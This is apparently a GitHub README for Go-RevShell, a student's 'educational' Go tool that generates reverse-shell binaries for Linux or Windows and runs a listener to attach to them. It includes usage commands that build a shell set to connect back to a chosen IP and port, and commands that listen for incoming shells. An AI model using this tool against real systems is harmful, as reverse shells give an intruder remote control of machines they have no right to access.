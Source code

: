 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a netcat like tcp listener to attach the shell without any other piece of code. Made by a student for educational purposes only.

## Table of content
- [Go-RevShell](#go-revshell)
  - [Table of content](#table-of-content)
  - [Usage](#usage)
    - [Build a reverse shell](#build-a-reverse-shell)
    - [Attach to reverse shell](#attach-to-reverse-shell)
  - [Screenshots](#screenshots)
  - [Todo List](#todo-list)

## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
```

### Build a reverse shell

* Build a shell for linux server : ```go run main.go -s linux```
* Build a shell for windows server : ```go run main.go -s windows```
* Build a shell for windows server to be attached on 192.1.1.10:4444 : ```go run main.go -i 192.168.1.10 -p 4444 -s windows```

### Attach to reverse shell

* Listen on port 1111 ```go run main.go -l 1111```
* Listen on port 3412 ```go run main.go -l 3412```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Todo List

* Refresh attach screenshot with a windows host
* Publish package

**[`^        back to top        ^`](#)**
